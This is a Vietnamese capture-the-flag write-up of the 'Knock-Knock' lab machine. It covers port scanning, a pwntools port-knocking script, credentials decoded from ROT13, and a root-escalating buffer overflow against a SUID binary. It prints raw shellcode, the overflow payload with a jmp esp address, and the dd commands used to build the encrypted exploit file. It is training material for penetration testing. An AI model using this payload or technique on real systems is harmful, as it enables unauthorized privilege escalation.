# Knock-Knock
***
Tìm được địa chỉ máy victim: `192.168.132.152`

Sử dụng nmap quét OS và version

Nmap bị chặn scan OS và version, tiếp theo ta sẽ scan port
Ta thấy chỉ thấy cổng 1337 mở

Thử netcat vào thì trả về một list chứa ba số

Nhận được 3 giá trị có vẻ như là các port
Port Knocking là một kỹ thuật để kiểm soát quyền truy cập vào một cổng bằng cách chỉ cho phép người dùng hợp pháp truy cập vào dịch vụ đang chạy trên máy chủ. Nó hoạt động theo cách mà khi thực hiện đúng trình tự kết nối, tường lửa sẽ mở cổng đã bị đóng.
Ta viết một script để kết nối
```py
#!/usr/bin/python3
from pwn import *
from itertools import permutations

def Knock_Port(host,ports):
	perms = permutations(ports)
	for perm in perms:
		for port in perm:
			try:
				print("[+] Knocking on port: " ,port)
				r = remote(host,port)
			except:
				pass
		log.info("Knocking complete")
if __name__ == '__main__':
	host = '192.168.132.152'
	ports = 1337
	r = remote(host,ports)
	port = eval(r.recvline())
	print(port)
	Knock_Port(host	, port)
```
Chạy thử script sau đó scan lại port


Truy cập trên trình duyệt , xem mã nguồn thấy không có gì đặc biệt chỉ có ảnh knocknock.jpg. 

Ta tải ảnh về máy
`wget http://192.168.132.152/knockknock.jpg`
Dùng strings thấy một thông tin đăng nhập có vẻ được mã hóa
Đây là mã caesar với ROT 13
Decode ta được: `username: Jason password: jB9jP2knf`

SSH vào ta thấy một file thực thi tfc có quyền SUID

Đây là chương trình mã hóa tập tin, đối số thứ nhất là tệp đầu vào (văn bản thuần túy) và đối số thứ hai là tệp đầu ra (văn bản mật mã), cả đầu vào và đầu ra đều phải có đuôi .tfc , tải về máy local cho tiện khai thác

Sau khi đọc IDA ta hiểu được là chương trình sẽ XOR dữ liệu đầu vào và viết vào file out.tfc. Chương trình không giới hạn dữ liệu đầu vào

Cách giải quyết: Sử dụng đầu vào là payload overflow đã mã hóa 1 lần để tạo shell với quyền SIUD
`Payload = bytes to overflow + address of jmp esp + shellcode`
***
## Tìm số byte để overflow
Số byte: 4124

## Sử dụng msfelfscan để lấy địa chỉ jmp esp

```py
shellcode = b"\xdb\xc6\xd9\x74\x24\xf4\x5a\xb8\x7e\xda\xf3\x36\x31\xc9\xb1\x0b\x83\xea\xfc\x31\x42\x16\x03\x42\x16\xe2\x8b\xb0\xf8\x6e\xea\x17\x99\xe6\x21\xfb\xec\x10\x51\xd4\x9d\xb6\xa1\x42\x4d\x25\xc8\xfc\x18\x4a\x58\xe9\x13\x8d\x5c\xe9\x0c\xef\x35\x87\x7d\x9c\xad\x57\xd5\x31\xa4\xb9\x14\x35"
payload = b'A'*4124 + b'\x93\x8e\x04\x08'  + b'\x90'*20 + shellcode
payload = payload.ljust(5000,b'A')
print(payload)
```
Do 4 'A' luôn bắt đầu bằng cùng một byte ‘def0 5bab’ trong tệp được mã hóa, Vì vậy, 'def0 5bab' có thể được sử dụng như một mẫu để xác định vị trí dữ liệu được mã hóa trong tệp core.


copy core ra file exp.tfc bỏ qua 245888byte (từ 0x3c080)
`dd if=core of=exp.tfc skip=245888 count=5001 bs=1`

Khai thác trên máy local thành công , tiến hành upload file lên server để leo quyền

## ROOTED